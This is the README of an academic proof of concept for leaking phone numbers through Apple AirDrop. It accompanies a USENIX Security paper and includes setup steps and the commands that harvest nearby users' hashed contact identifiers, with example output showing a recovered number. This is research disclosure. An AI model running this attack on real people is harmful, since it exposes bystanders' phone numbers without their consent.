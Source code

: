 # PoC: AirDrop Phone Number Leak

This PoC demonstrates the contact identifier leakage in Apple AirDrop that was described in

* **[HHSSW21]** Alexander Heinrich, Matthias Hollick, Thomas Schneider, Milan Stute, and Christian Weinert. **PrivateDrop: Practical Privacy-Preserving Authentication for Apple AirDrop** in _30th USENIX Security Symposium_. [Website](https://privatedrop.github.io). [Preprint](https://www.usenix.org/system/files/sec21fall-heinrich.pdf).

The paper also proposes a privacy-preserving drop-in replacement for Apple AirDrop.

**We notified Apple about this vulnerability on May 11, 2019. Until today, Apple has neither mitigated the issue nor informed us that they are planning to do so.
This means that current Apple systems are still vulnerable (iOS 14.5 and macOS 11.3 as of May 5, 2021).**

## Installation

Run the following instructions on a Mac (tested with macOS 11.2.3).

1. Checkout the repository.

```bash
git clone https://github.com/seemoo-lab/opendrop.git
cd opendrop
git checkout poc-phonenumber-leak
git submodule update --init
```

2. Install Python dependencies.

```bash
pip3 install -r requirements.txt
```

3. Build [_RainbowPhones_](https://github.com/contact-discovery/rt_phone_numbers).

```bash
brew install libomp
cd rt_phone_numbers
make -f Makefile.macOS
cd ..
```

## Usage

Our PoC is able to exploit both vulnerabilities explained in [HHSSW21]. We provide usage instructions below. 

**Disclaimer:** We omit precomputed rainbow tables generated with [_RainbowPhones_](https://github.com/contact-discovery/rt_phone_numbers)'s `rtgen` in this PoC.
Consequently, you will see the following message when running this PoC without modification: _"Could not recover hashed phone number: No rainbow tables provided."_ 

### Contact Identifier Leakage of Sender (§3.3 in [HHSSW21])

Simply run the following and wait for someone in proximity to open the AirDrop sharing menu.

```bash
python3 -m opendrop receive
```

An example output would look like this:

```
Announcing service: host opendrop, address fe80::c8b9:fbff:fee9:d544, port 8771
Starting HTTPS server
Nearby phone number: +49<...>
```

### Contact Identifier Leakage of Receiver (§3.4 in [HHSSW21])

Exploiting this vulnerability requires the victim to have the attacker in their address book. 
In particular, the attacker needs to present a valid AirDrop certificate containing its contact identifiers to the victim.
You can follow [these instructions](https://github.com/seemoo-lab/airdrop-keychain-extractor) to extract your current AirDrop certificate and use it with OpenDrop.
This attack does not require any interaction on part of the victim. Simply run:

```bash
python3 -m opendrop find
```

An example output would look like this:

```
Looking for receivers. Press Ctrl+C to stop ...
Nearby phone number: +49<...>
Found  index 0  ID a019b536c38b  name John Doe's iPhone
```
